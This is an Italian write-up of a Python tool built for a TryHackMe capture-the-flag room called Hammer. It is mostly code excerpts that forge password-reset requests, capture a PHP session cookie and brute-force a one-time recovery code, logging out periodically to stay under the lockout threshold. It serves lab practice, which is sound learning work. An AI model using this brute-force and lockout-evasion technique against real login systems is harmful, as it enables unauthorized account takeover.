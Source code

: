 CTF HAMMER ON THM
Tool python creato per bypassare il login alla dashboard.

FASE 1:
    • Caricamento e convalida codici otp da file .txt
        ◦ otp.otp_from_txt(otp_txt)
            ▪ def is_otp(otp_code, len_code_ok):
                  n_char_code = len(otp_code)
                  if(n_char_code < len_code_ok or n_char_code > len_code_ok):
                      return False
                  else:
                      return True	


FASE 2:
    • Forgiatura richiesta pw reset 
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw)
            ▪ def reset_pw_req(url, email = None, session_id=None):
              …………………………….
              else:
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                      }
                  return {"url":url, "headers": headers}

    • Richiesta per pw reset, e recupero session_id 
        ◦ cookie = otp_req.do_request(http_req_pwRst)
            ▪ def do_request(http_req_pwRst, flag=None):
                  if(not flag):
                      response = requests.get(url=http_req_pwRst['url'], headers=http_req_pwRst['headers'])
              ……………………………………….
              return response.cookies.get_dict()['PHPSESSID']


FASE 3:
    • Forgiatura richiesta per pw reset, con email valida e cookie
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw, email_user, cookie)
            ▪ def reset_pw_req(url, email = None, session_id=None):
                  if(session_id):
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                          "Cookie": f"PHPSESSID={session_id}"
                      }
              data = {"email":email}
              return {"url":url, "headers": headers, "data":data}
              ………………………………..

    • Richiesta per pw reset, con email valida e cookie settato
        ◦ otp_req.do_request(http_req_pwRst, flag = "pw")
              elif(flag == "pw"):
                      #print("SEND PW RST")
                      response = requests.post(url=http_req_pwRst['url'], data=http_req_pwRst['data'], headers=http_req_pwRst['headers'])


FASE 4:
    • Forgiatura richiesta BruteForce, con url di inserimento otp, cookie e code
        ◦ code = otp_codes.pop(0)
        ◦ http_req_OTP = forge.otp_brute_req(url_otp, cookie, code)
            ▪ def otp_brute_req(url, session_id, otp_code):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  data = {"recovery_code": otp_code, "s":140}
                  return {"url":url, "headers": headers, "data":data}

    • Richiesta convalida otp, stringa di errore otp, otp e cookie settato
        ◦ Eseguita n volte, n < n_request lock out.
        ◦ otp_req.bruteOTP(http_req_OTP, error, cookie)
          def bruteOTP(http_req_otp, error, cookie):
                  response = requests.post(url=http_req_otp['url'], data=http_req_otp['data'], headers=http_req_otp['headers'])
                  if( not error in response.text):
                      exit(f"\nOTP TROVATO: {http_req_otp['data']} \n Cookie: {cookie}")


FASE 5:
    • Forgiatura richiesta logout, con url di logout e cookie settato
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              def logout_req(url, session_id):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  return {"url": url, "headers": headers}

    • Richiesta di logout
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              otp_req.logout(logout_req)
                          n_requests = 0
                          print(f"RIMANGONO {len(otp_codes)} OTP DA TESTARE")

